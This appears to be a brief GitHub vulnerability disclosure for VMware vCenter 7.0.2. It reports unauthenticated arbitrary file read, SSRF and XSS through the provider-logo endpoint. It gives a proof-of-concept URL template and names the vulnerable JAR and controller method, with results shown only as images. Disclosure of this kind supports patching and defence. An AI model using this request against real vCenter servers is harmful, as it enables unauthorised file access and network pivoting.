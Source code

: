 # VMware vCenter earlier versions (7.0.2) has unauthorized arbitrary file read + ssrf + xss vulnerability
## POC
https://{vCenterserver}/ui/vcav-bootstrap/rest/vcav-providers/provider-logo?url={url}

File read:

![](./file_read.PNG)


SSRF + XSS:

![](./xss.PNG)

## vulnerable code:
/etc/vmware/vsphere-ui/cm-service-packages/com.vmware.cis.vsphereclient.plugin/com.vmware.h4.vsphere.client-0.4.1.0/plugins/h5-vcav-bootstrap-service.jar

com.vmware.h4.vsphere.ui.bootstrap.controller.ProvidersController.getProviderLogo()

![](./code.PNG)

Tested on vCenter 7.0.2.00100, not knowing the exact affected version range or cve id
